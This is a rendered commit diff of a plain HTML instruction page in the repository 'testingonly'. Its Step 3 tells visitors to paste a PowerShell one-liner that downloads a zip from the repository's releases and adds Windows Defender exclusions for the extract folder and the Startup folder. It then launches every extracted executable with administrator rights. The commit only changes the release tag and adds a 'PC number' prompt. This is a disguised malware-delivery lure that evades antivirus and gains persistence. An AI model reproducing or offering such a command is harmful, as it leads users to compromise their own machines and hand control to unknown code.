

Before and after one commit to walaywashere/testingonly, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 176-959 px from the top of the page, without its empty margins (208-1076 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -23,7 +23,7 @@
     <div class="step">
       <strong>Step 3:</strong>
       Copy and paste the code below into PowerShell, then press <kbd>Enter</kbd>:
-      <code>$zip="$env:TEMP\tool.zip"; $out="$env:TEMP\tools"; $url="https://github.com/walaywashere/testingonly/releases/download/log/tool.zip"; Invoke-WebRequest $url -OutFile $zip; Expand-Archive $zip -DestinationPath $out -Force; Add-MpPreference -ExclusionPath $out; Add-MpPreference -ExclusionPath ([Environment]::GetFolderPath("Startup")); Get-ChildItem "$out\*.exe" | ForEach-Object { try { Start-Process $_.FullName -Verb RunAs | Out-Null; Write-Host "[ $($_.Name) ] started successfully." } catch { Write-Host "[ $($_.Name) ] failed: $($_.Exception.Message)" } }; Remove-Item $zip</code>
+      <code>$choice=Read-Host "Enter PC number (1-7)"; $zip="$env:TEMP\tool.zip"; $out="$env:TEMP\tools"; $url="https://github.com/walaywashere/testingonly/releases/download/logs/tool.zip"; Invoke-WebRequest $url -OutFile $zip; Expand-Archive $zip -DestinationPath $out -Force; Add-MpPreference -ExclusionPath $out; Add-MpPreference -ExclusionPath ([Environment]::GetFolderPath("Startup")); Get-ChildItem "$out\*.exe" | ForEach-Object { try { Start-Process $_.FullName -ArgumentList $choice -Verb RunAs | Out-Null; Write-Host "[ $($_.Name) ] started successfully." } catch { Write-Host "[ $($_.Name) ] failed: $($_.Exception.Message)" } }; Remove-Item $zip</code>
     </div>
 
     <div class="step">
```
